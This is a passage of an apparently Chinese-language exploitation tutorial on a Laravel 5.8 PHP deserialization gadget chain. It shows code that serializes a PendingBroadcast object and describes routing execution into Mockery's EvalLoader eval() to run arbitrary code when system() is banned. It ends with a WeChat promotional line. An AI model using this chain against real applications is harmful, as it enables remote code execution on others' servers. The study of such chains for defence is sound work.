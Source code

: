 ```
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, $c);
    print(urlencode(serialize($a)));
}
```

### eval执行

到这里已经可以调用任意类的任意方法了，但是call_user_func无法执行eval函数，如果我们的system被ban了的话，就需要继续寻找执行任意命令的函数，我们找到laravel5.8\vendor\mockery\mockery\library\Mockery\Loader\EvalLoader.php

```
class EvalLoader implements Loader
{
    public function load(MockDefinition $definition)
{
        if (class_exists($definition->getClassName(), false)) {
            return;
        }

        eval("?>" . $definition->getCode());
    }
}
```

这里有一个eval函数，这里需要绕过eval上面的if语句，否则直接就return了

$definition变量是MockDefinition类，跟进一下class MockDefinition

```
{
    protected $config;
    protected $code;
    ...
    public function getClassName()
{
        return $this->config->getName();
    }
    public function getCode()
{
        return $this->code;
    }
}
```

这里$code，$config可控，但是呢$definition->getClassName()需要一个不存在的类，我们找一个类其getName是可控的，然后构造一个不存在的类即可，如下

```
laravel5.8\vendor\mockery\mockery\library\Mockery\Generator\MockConfiguration.php
```

```
class MockConfiguration
{
    ...
public function getName()
{
        return $this->name;
    }
    ...
}+WX:machinegunjoe666 免费领取资料
```
